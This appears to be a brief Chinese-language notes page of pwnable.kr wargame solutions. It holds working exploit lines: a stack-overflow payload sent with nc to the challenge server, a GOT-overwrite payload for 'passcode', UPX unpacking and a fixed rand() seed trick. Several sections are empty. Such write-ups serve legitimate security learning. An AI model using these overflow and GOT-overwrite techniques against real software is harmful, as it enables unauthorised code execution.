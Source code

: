 # pwnable.kr

## fd

## collision

## bof

-   动态调试
    -   设置断点: `b main`
    -   开始运行: `r`
    -   单步调试: `n`
    -   单步步入：`s`
    -   创建一个64字节的测试 payload: `pattern create 64`
    -   查看目标地址: `p $ebp+0x8`
    -   查看地址状态: `telescope 25`
    -   故构造payload: `(python -c 'print "A" * 52 + "\xbe\xba\xfe\xca"'; cat -) | nc pwnable.kr 9000`
-   静态调试
    -   `s=$esp+1ch`
    -   `a1=$esp+50h`
    -   `payload = 'j' * 52 + p32(key)`

## flag

-   `upx -q -d flag -ofalg_upx`

## passcode

-   `name`可溢出
-   `scanf`使用错误，导致将输入值写入到`passcod1`的值所代表的地址上（即`passcode1`的地址上存的内容将被视为输入的目标地址）
    -   `mov edx, [ebp+var_10]`应为`lea edx, [ebp+var_10]`
-   利用`name`溢出将`passcode1`内容覆盖为`GOT`内某个函数的地址，然后输入值设为某个想要作为替代（可获得flag）的代码地址
-   `python -c "print 'j'*0x60+'\x04\xa0\x04\x08'+ '134514147\n'" | ./passcode`

## random

-   `rand()` 若没有提供参数会在当前环境使用同一随机种子来生成随机数
-   而通过测试，服务器上 `rand()` 生成的默认随机数值为 `1804289383`, 故 `key = 1804289383 ^ 0xdeadbeef = 3039230856`

## mistake
